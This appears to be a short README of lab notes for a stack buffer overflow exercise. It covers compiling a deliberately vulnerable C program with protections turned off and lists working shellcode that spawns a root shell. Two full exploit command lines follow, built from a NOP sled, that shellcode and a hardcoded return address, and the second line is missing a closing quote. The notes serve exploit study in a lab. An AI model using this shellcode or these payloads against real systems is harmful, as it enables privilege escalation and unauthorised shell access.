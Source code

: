 # zataoh
# Zen and the Art of Hacking

## Build:
```shell
gcc -g -z execstack -no-pie -o vuln vuln.c
```

buffer lives in between esp and ebp

```shell
info registers
x/30x $esp
```

## Run:
```shell
./envexec.sh vuln $(python ...)
```

## Test if shellcode is working:
(Update test_shellcode with the shellcode you are testing)

### Compile test_shellcode.c
```shell
gcc -m32 -z execstack test_shellcode.c -o test_shell
./test_shellcode
```

## Shellcode (works):
'\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'

## Buffer Size: 100
```shell
./envexec.sh vuln $(python -c 'print "\x90" * 76 + "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80" + "\x60\xfd\xff\xbf"')
```
## Buffer size: 500
```shell
$(python -c 'print "\x90" * 476 + "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80" + "\x30\xfa\xff\xbf")
```
